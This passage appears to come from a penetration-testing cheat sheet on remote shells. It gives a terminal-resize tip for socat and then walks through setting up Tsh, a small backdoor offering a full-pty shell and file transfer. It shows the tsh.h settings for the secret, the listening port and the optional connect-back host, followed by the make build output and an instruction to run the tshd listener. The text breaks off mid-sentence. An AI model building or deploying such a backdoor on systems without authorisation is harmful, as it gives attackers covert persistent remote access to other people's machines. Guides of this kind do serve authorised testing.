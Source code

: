 Apply desired size to your socat terminal:

```
$ stty rows 57 cols 211
```

### Tsh

[Tsh](https://github.com/creaktive/tsh) is a small ssh-like backdoor with full-pty terminal and with capability of file transfer. This tool has very small footprint and is easily built on most unix-like systems. Start with editing tsh.h file:

```c
#ifndef _TSH_H
#define _TSH_H

char *secret = "never say never say die";

#define SERVER_PORT 22
short int server_port = SERVER_PORT;
/*
#define CONNECT_BACK_HOST  "localhost"
#define CONNECT_BACK_DELAY 30
*/
#define GET_FILE 1
#define PUT_FILE 2
#define RUNSHELL 3

#endif /* tsh.h */
```

Change `secret`, specify `SERVER_PORT`. Uncomment and edit `CONNECT_BACK_HOST` and `CONNECT_BACK_DELAY` directives if you want backconnect. Run make:

```
$ make linux_x64
make								\
	LDFLAGS=" -Xlinker --no-as-needed -lutil"	\
	DEFS=" -DLINUX"					\
	tsh tshd
make[1]: Entering directory '/tmp/tsh'
gcc -O3 -W -Wall -DLINUX -c pel.c
gcc -O3 -W -Wall -DLINUX -c aes.c
gcc -O3 -W -Wall -DLINUX -c sha1.c
gcc -O3 -W -Wall -DLINUX -c tsh.c
gcc -Xlinker --no-as-needed -lutil -o tsh pel.o aes.o sha1.o tsh.o
strip tsh
gcc -O3 -W -Wall -DLINUX -c tshd.c
gcc -Xlinker --no-as-needed -lutil -o tshd pel.o aes.o sha1.o tshd.o
strip tshd
make[1]: Leaving directory '/tmp/tsh'
```

Now run `./tshd` on server. It will start listening on the specified port. You can connect to it via executing the following command:
